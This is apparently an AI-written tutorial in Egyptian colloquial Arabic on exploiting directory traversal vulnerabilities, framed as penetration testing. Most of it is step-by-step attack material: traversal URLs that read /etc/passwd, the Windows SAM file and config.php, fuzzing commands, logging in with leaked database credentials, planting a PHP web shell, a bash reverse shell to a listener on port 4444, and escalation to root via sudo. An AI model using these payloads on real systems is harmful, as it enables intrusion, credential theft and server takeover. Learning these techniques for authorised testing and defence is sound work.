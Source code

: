 تمام، هشرح لك "Directory Traversal" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Directory Traversal؟**

#### **الشرح العميق:**
"Directory Traversal" (أو Path Traversal) هو نوع من الثغرات الأمنية في تطبيقات الويب أو الأنظمة اللي بيسمح للمهاجم يطلع برا المجلد اللي المفروض محصور فيه ويوصل لملفات تانية في النظام. بمعنى تاني، التطبيق بياخد إدخال من المستخدم (زي اسم ملف في رابط)، لكن لو ما اتفلترش صح، المهاجم يقدر يستخدم حاجات زي `../` (في لينكس) أو `..\` (في ويندوز) عشان يتحرك لمجلدات أعلى ويفتح ملفات حساسة زي `/etc/passwd` أو `C:\Windows\system32\config\SAM`.

- **كيف بيحصل؟** لو التطبيق بيستخدم دالة زي `file_get_contents()` في PHP بدون ما يتحقق من الإدخال، المهاجم يقدر يعدي المسار المحدد.
- **الهدف:** قراءة ملفات مهمة أو كتابة ملفات لو الثغرة بتسمح.

#### **الأدوات والأوامر العملية:**
1. **فحص يدوي في الويب:**
   - لو رابط زي: `http://target.com/file?path=doc.pdf`.
   - جرب: `http://target.com/file?path=../etc/passwd` -> لو ظهر محتوى الملف، يبقى فيه Directory Traversal.

2. **استخدام curl:**
   - `curl http://target.com/file?path=../../etc/passwd` -> لو رجع بيانات، يبقى مفتوح.

3. **أدوات تلقائية:**
   - بـ Burp Suite: Intercept الطلب وعدل الـ Parameter لـ `path=../etc/passwd`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون في أوضة في بيت، بس لقيت سلم سري يطلعك لأوض تانية المفروض ماتخشّهاش! Directory Traversal يعني بتطلع برا السجن بتاعك وتشوف أسرار البيت كله."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرة دي خطيرة لأنها بتدي المهاجم وصول لملفات المفروض تكون مخفية أو محمية، وده بيفتح الباب لكذا حاجة:
- **سرقة بيانات حساسة:** زي ملفات الإعدادات (`config.php`) أو كلمات السر المشفرة (`/etc/shadow`).
- **كشف النظام:** يعرف إزاي النظام شغال (مثل إصدارات البرامج من ملفات النظام).
- **تصعيد صلاحيات:** لو قدر يكتب ملف (زي Shell)، يتحكم في السيرفر.

في الـ Pentesting، الثغرة دي كنز لأنها بتخليك تشوف حاجات المفروض محدش يشوفها وتستغلها عشان تكبر وصولك.

#### **الأدوات والأوامر العملية:**
1. **قراءة ملفات حساسة:**
   - `http://target.com/file?path=../../../../etc/passwd` -> ملف المستخدمين في لينكس.
   - `http://target.com/file?path=..\Windows\system32\config\SAM` -> ملف كلمات السر في ويندوز.

2. **استغلال لكشف أكواد:**
   - `http://target.com/file?path=../var/www/html/config.php` -> لو جاب كلمة سر قاعدة البيانات.

3. **اختبار متعمق:**
   - بـ wfuzz:
     - `wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 http://target.com/file?path=../../FUZZ`.

#### **خلاصة بالعامية المصرية:**
"الثغرة دي خطيرة لأنها زي ما تكون لقيت خريطة البيت كله، تقدر تفتح أي أوضة وتاخد اللي فيها! المهاجم يلاقيها، يبقى زي اللي مسك مفتاح الخزنة."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم Directory Traversal عشان تقرأ ملفات حساسة أو تكتب ملفات لو الثغرة بتسمح، وتوصل لتحكم أكبر.
- **مثال واقعي:** لو قدرت تقرأ `/etc/passwd`، تعرف المستخدمين، ولو لقيت `config.php`، تاخد كلمة سر قاعدة البيانات.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي الثغرة دي، زي ما تكون لقيت باب سري في لعبة، تفتحه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: البحث عن الثغرة**
- جرب رابط ياخد Parameter:
  - `http://192.168.1.10/file?path=image.jpg`.
  - عدله: `http://192.168.1.10/file?path=../etc/passwd` -> لو ظهر الملف، يبقى فيه Directory Traversal.
- لو ما نجحش، زوّد `../`:
  - `http://192.168.1.10/file?path=../../../../etc/passwd`.

#### **الخطوة 3: استغلال لقراءة ملفات**
- في لينكس:
  - `http://192.168.1.10/file?path=../../../../etc/passwd` -> تسريب المستخدمين.
  - `http://192.168.1.10/file?path=../../../../var/www/html/config.php` -> كلمة سر قاعدة البيانات.
- في ويندوز:
  - `http://192.168.1.10/file?path=..\..\Windows\system32\drivers\etc\hosts`.

#### **الخطوة 4: استخدام البيانات**
- لو لقيت في `config.php`:
  - `$db_user = "root"; $db_pass = "secret123";`.
  - `mysql -u root -psecret123 -h 192.168.1.10` -> `SELECT * FROM users;`.

#### **الخطوة 5: محاولة كتابة (لو ممكن)**
- لو الثغرة بتسمح بكتابة:
  - `http://192.168.1.10/file?path=../../../../var/www/html/shell.php&content=<?php system($_GET['cmd']); ?>`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.

#### **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

#### **الخطوة 7: توثيق**
- سجل الملفات اللي وصلت لها (زي `/etc/passwd` أو `config.php`).
- قدم تقرير يوضح إزاي الثغرة فتحت الباب لكل حاجة.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت خرم في السقف، طلعت منه، فتحت كل الأوض، وطلعت الكبير بتاع الحتة! Directory Traversal طريقك للفوز بسهولة لو لقيتها."

---

### **الخلاصة النهائية:**
Directory Traversal هي ثغرة كبيرة لأنها بتخلّيك تتحرك برا الحدود وتشوف أو تعدل ملفات حساسة. في الـ Pentesting، دور عليها في الروابط باستخدام `../` أو أدوات زي Burp، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي بيت مفتوح من غير أسوار! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!